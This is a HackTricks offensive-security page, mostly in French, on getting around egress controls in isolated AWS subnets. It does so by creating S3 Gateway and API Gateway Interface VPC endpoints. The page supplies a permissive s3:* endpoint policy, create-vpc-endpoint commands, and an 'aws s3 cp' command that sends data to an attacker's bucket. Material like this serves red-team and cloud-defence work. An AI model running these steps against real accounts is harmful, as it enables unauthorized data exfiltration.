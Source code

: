 # AWS – Contournement de l'egress depuis des subnets isolés via VPC Endpoints

{{#include ../../../../banners/hacktricks-training.md}}

## Summary

Cette technique abuse des VPC Endpoints pour créer des canaux d'exfiltration depuis des subnets sans Internet Gateways ni NAT. Les Gateway endpoints (p.ex. S3) ajoutent des prefix‑list routes dans les subnet route tables ; les Interface endpoints (p.ex. execute-api, secretsmanager, ssm, etc.) créent des ENIs atteignables avec des private IPs protégées par des security groups. Avec des permissions VPC/EC2 minimales, un attaquant peut activer un egress contrôlé qui ne traverse pas le public Internet.

> Prereqs: existing VPC and private subnets (no IGW/NAT). You’ll need permissions to create VPC endpoints and, for Option B, a security group to attach to the endpoint ENIs.

## Option A – S3 Gateway VPC Endpoint

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Create a permissive endpoint policy file (optional). Save as `allow-put-get-any-s3.json`:
```json
{
"Version": "2012-10-17",
"Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```
2) Créer le S3 Gateway endpoint (ajoute une S3 prefix‑list route aux route tables sélectionnées) :
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.s3 \
--vpc-endpoint-type Gateway \
--route-table-ids $RTB_IDS \
--policy-document file://allow-put-get-any-s3.json   # optional
```
Éléments de preuve à collecter :

- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` indique une route vers la prefix list AWS S3 (par ex., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- Depuis une instance dans ces subnets (avec IAM perms) vous pouvez exfil via S3 sans Internet:
```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```
## Option B – Interface VPC Endpoint pour API Gateway (execute-api)

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) Créez l'interface endpoint et attachez le SG :
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.execute-api \
--vpc-endpoint-type Interface \
--subnet-ids $SUBNET_IDS \
--security-group-ids $SG_VPCE \
--private-dns-enabled
```
Éléments de preuve à recueillir :
- `aws ec2 describe-vpc-endpoints` montre le endpoint en état `available` avec `NetworkInterfaceIds` (ENIs dans vos subnets).
- Les instances dans ces subnets peuvent atteindre les Private API Gateway endpoints via ces ENIs VPCE (aucun chemin Internet requis).

## Impact
- Contourne les contrôles de sortie (egress) périmétriques en exploitant des chemins privés gérés par AWS vers les services AWS.
- Permet l'exfiltration de données depuis des subnets isolés (par ex., écrire sur S3 ; appeler Private API Gateway ; accéder à Secrets Manager/SSM/STS, etc.) sans IGW/NAT.

{{#include ../../../../banners/hacktricks-training.md}}
